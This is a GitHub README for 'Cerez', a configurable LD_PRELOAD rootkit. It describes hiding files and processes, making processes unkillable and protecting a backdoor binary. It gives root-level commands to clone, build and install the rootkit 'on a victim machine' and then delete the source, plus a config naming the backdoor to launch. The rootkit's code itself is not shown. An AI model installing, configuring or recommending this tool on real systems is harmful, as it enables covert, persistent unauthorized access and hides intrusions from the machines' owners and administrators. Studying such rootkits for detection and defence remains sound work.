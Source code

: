 <h1 align="center">
  <img src="assets/banner.png"/>  
  <br>
  Cerez 😈 A simple LD_PRELOAD rootkit
</h1>

Cerez is a configurable `LD_PRELOAD` rootkit, by installing it 
into `/etc/ld.so.preload`, you can preload it before every binary.
It can protect/hide your backdoor as well other files you want 
hidden. It does so by overwriting syscalls like `open`, `write`
and others.

## Features
- ✔ Hides files in the file system 
- ✔ Hides proceses in the process list 
- ❌ Hides connections in the network list
- ✔ Makes files unreadable 
- ✔ Makes files unwriteable 
- ✔ Makes processes unkillable 

## Install 
### You will need to install `build-essential` to compile!
You can install it with `apt` on debian systems:
```bash
apt update && apt install build-essential
```
To install the rootkit on a victim machine run the following
as **ROOT**:
```bash
git clone https://github.com/ngn13/cerez.git && cd cerez
make && make install
cd .. && rm -rf cerez
```
Don't forget to edit `cerez.cfg` before install!

## Config `(/etc/cerez.cfg)`
```
backdoor:/usr/bin/backdoor     --> backdoor that will be started by the rootkit
whitelist:/usr/bin/backdoor    --> rootkit won't hide/protect stuff from this 
output:1                       --> if set to 1, cerez will hide any console output that contains hidden file names
/etc/cerez.cfg                 --> rest is just the list of the files that will be hidden
./cerez.cfg
...
```

## Resources
To learn more about LD_PRELOAD rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](rootkit/loader.c) so you can go ahead and read it.
You can also create an issue/PR if you are interested.
